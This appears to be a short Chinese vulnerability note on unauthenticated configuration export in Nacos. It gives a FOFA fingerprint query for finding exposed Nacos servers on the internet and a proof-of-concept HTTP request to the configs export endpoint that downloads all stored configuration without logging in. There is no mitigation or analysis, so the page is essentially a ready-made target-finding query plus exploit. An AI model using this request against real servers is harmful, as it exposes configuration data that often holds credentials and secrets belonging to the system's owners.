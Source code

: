 # Nacos未授权下载配置信息

Nacos未授权下载配置信息

## fofa

```javascript
icon_hash="13942501"
```

## poc

```java
GET /v1/cs/configs?export=true&group=&tenant=&appName=&ids=&dataId= HTTP/1.1
Host: 
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409191401675.png)